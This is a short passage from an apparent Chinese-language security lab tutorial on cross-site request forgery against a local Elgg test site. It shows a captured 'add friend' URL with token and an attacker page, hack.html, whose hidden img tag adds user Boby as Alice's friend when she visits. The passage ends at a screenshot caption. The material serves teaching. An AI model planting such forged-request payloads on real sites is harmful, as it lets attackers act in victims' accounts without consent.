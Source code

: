 ![图片描述信息](img/userid9094labid936time1430186206593.jpg)

添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1429794173&__elgg_token=194fee1a60560fd22f06943948fd9ee1 
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
 sudo vim /var/www/CSRF/Attacker/hack.html 
```

输入下面代码：

```
 <html>
    <img src="http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1429794173&__elgg_token=194fee1a60560fd22f06943948fd9ee1">
    </html> 
```

Alice 用户访问前：

![图片描述信息](img/userid9094labid936time1430186343735.jpg)
